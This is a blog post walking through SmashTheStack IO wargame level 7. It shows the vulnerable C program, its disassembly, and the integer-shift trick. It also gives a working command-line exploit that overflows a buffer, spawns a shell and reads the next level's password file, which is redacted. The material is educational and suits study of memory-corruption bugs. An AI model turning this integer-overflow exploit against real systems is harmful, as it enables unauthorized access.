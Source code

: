 ```yaml
---
layout: post
title: "Levels 7 and 7_alt - IO at STS"
date: 2013-08-15 13:51
comments: true
categories: [SmashTheStack-IO, Security]
---
```


I've been documenting my experiences with [IO][] at [SmashTheStack][] for a while, but decided not to post them publicly for a few reasons. However level 7 (in particular the `alt` level) was the first that I thought worthy of posting. This post includes how I broke both applications to make it through to the level 8. If you haven't had a play on the [SmashTheStack][] wargames yet, I really do recommend it. They're great fun.

<!--more-->

Spoiler Alert
-------------

This post covers, in detail, how to get past level 7 and level 7 alt. If you haven't done these levels yourself yet, and you plan to, then please don't read this until you've nailed them yourself. I'd hate for this to ruin your experience.

However, if you've done the level or you're just interested in what's involved, please read on.

Connecting
----------

Fire up a shell and connect to the game server with the password for the `level7` user (I won't be sharing passwords here).

{% codeblock lang:bash %}
$ ssh level7@io.smashthestack.org
{% endcodeblock %}

Let's see what challenges there are for us:

{% codeblock lang:bash %}
level7@io:~$ ls /levels/level07*
/levels/level07  /levels/level07_alt  /levels/level07_alt.c  /levels/level07.c
{% endcodeblock %}

This level has two possible entry points, and we'll be covering both in this post.

Level 07
--------

We start by looking at the source of the target program:

{% codeblock level07.c lang:c %}
//written by bla
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
        int count = atoi(argv[1]);
        int buf[10];

        if(count >= 10 ) 
                return 1;

        memcpy(buf, argv[2], count * sizeof(int));

        if(count == 0x574f4c46) {
                printf("WIN!\n");
                execl("/bin/sh", "sh" ,NULL);
        } else
                printf("Not today son\n");

        return 0;
}
{% endcodeblock %}

What's clear here is that we need to pass a number in that is less than `10`, but is big enough to allow us to overflow `buf` so that we can modify the value of `count`. The data that's written to `buf` is only allowed to be `count * sizeof(int)` in size.  We can easily pass in numbers smaller than 10, but they won't be big enough to overflow `buf`. If we pass in a _negative_ number we bypass the check, but the call to `memcpy` will fail because `count * sizeof(int)` is negative.

We need to find a way of turning this calculation into something positive, but also much bigger than `10 * sizeof(int)` so that we can overflow `buf`.

What's interesting about this is that `sizeof(int)` on a 32-bit machine is `4`, which is effectively a `SHL 2` operation. We can confirm this by disassembling `main` and looking at the generated output:

{% codeblock lang:bash %}
gdb$ disas main
Dump of assembler code for function main:
0x08048414 <main+0>:    push   ebp
0x08048415 <main+1>:    mov    ebp,esp
0x08048417 <main+3>:    sub    esp,0x68
0x0804841a <main+6>:    and    esp,0xfffffff0
0x0804841d <main+9>:    mov    eax,0x0
0x08048422 <main+14>:   sub    esp,eax
0x08048424 <main+16>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048427 <main+19>:   add    eax,0x4
0x0804842a <main+22>:   mov    eax,DWORD PTR [eax]
0x0804842c <main+24>:   mov    DWORD PTR [esp],eax
0x0804842f <main+27>:   call   0x8048354 <atoi@plt>
0x08048434 <main+32>:   mov    DWORD PTR [ebp-0xc],eax
0x08048437 <main+35>:   cmp    DWORD PTR [ebp-0xc],0x9
0x0804843b <main+39>:   jle    0x8048446 <main+50>
0x0804843d <main+41>:   mov    DWORD PTR [ebp-0x4c],0x1
0x08048444 <main+48>:   jmp    0x80484ad <main+153>
0x08048446 <main+50>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048449 <main+53>:   shl    eax,0x2                          <- here
0x0804844c <main+56>:   mov    DWORD PTR [esp+0x8],eax
0x08048450 <main+60>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048453 <main+63>:   add    eax,0x8
0x08048456 <main+66>:   mov    eax,DWORD PTR [eax]
0x08048458 <main+68>:   mov    DWORD PTR [esp+0x4],eax
0x0804845c <main+72>:   lea    eax,[ebp-0x48]
0x0804845f <main+75>:   mov    DWORD PTR [esp],eax
0x08048462 <main+78>:   call   0x8048334 <memcpy@plt>
0x08048467 <main+83>:   cmp    DWORD PTR [ebp-0xc],0x574f4c46
0x0804846e <main+90>:   jne    0x804849a <main+134>
0x08048470 <main+92>:   mov    DWORD PTR [esp],0x8048584
0x08048477 <main+99>:   call   0x8048344 <printf@plt>
0x0804847c <main+104>:  mov    DWORD PTR [esp+0x8],0x0
0x08048484 <main+112>:  mov    DWORD PTR [esp+0x4],0x804858a
0x0804848c <main+120>:  mov    DWORD PTR [esp],0x804858d
0x08048493 <main+127>:  call   0x8048324 <execl@plt>
0x08048498 <main+132>:  jmp    0x80484a6 <main+146>
0x0804849a <main+134>:  mov    DWORD PTR [esp],0x8048595
0x080484a1 <main+141>:  call   0x8048344 <printf@plt>
0x080484a6 <main+146>:  mov    DWORD PTR [ebp-0x4c],0x0
0x080484ad <main+153>:  mov    eax,DWORD PTR [ebp-0x4c]
0x080484b0 <main+156>:  leave  
0x080484b1 <main+157>:  ret    
End of assembler dump.
{% endcodeblock %}

Some investigation of the behaviour of this instruction lead me to realise that there was room for abuse when values over/underflow. If we use `SHL` with numbers of a small enough negative value, those values become positive. Let's have a look at that in action by whipping up a sample program and viewing the output:

{% codeblock Testing Shifts Source lang:c %}
int main(int argc, char **argv)
{
    int x = -2147483647;
    printf("%p\n", x);
    printf("%p\n", x << 2);
    printf("%p\n", (x + 16) << 2);
    printf("%p\n", (x + 32) << 2);
    return 0;
}
{% endcodeblock %}

Compile this code with `gcc` and run it, and you'll find the following:

{% codeblock Testing Shifts lang:bash %}
level7@io:/tmp/tc7$ ./a.out
0x80000001
0x4
0x44
0x84
{% endcodeblock %}

So we can pass in a negative integer, have it shift and turn it into a positive that's big enough to overflow the buffer. Once we've overflowed, all we need to do is write the value `0x574f4c46` to the desired memory location and the level will pass. We can get smart and figure out exactly where this needs to be, or we can go with the approach of repeatedly writing it knowing that somewhere along the line it'll end up being written to where we need it to be: in the `count` varaible. I chose to do the latter. We pass this data in as the second argument on the command line. Let's see how this looks:

{% codeblock Exploit Run lang:bash %}
level7@io:$ /levels/level07 -2147483600 `perl -e 'print "\x46\x4c\x4f\x57" x 100'`
WIN!
sh-4.1$ cat /home/level8/.pass
<< -- password was printed here -- >>
{% endcodeblock %}

This level was relatively simple, but was good exposure to the idea of how integer underflows can cause problems.

Level 07 alt
------------

Out of respect for the author of the challenge, and the effort that went into to creating it, I have removed my walkthrough for Level 07 alt.

This challenge took me a _very long time_ to complete. It took research, patience, creativity and lots of sweat. I highly recommend attempting to nail this by yourselves. I'd like to shout out to Lars Haulin, the creator, for his amazing job in creating this little masterpiece.

Feedback is appreciated as always. Thanks for reading.

  [IO]: http://io.smashthestack.org:84/ "IO @ Smash The Stack"
  [SmashTheStack]: http://smashthestack.org/ "Smash The Stack"
  [.ctors]: http://gcc.gnu.org/onlinedocs/gccint/Initialization.html
  [.dtors]: http://gcc.gnu.org/onlinedocs/gccint/Initialization.html
  [GOT]: http://bottomupcs.sourceforge.net/csbu/x3824.htm "Global Offset Tables"

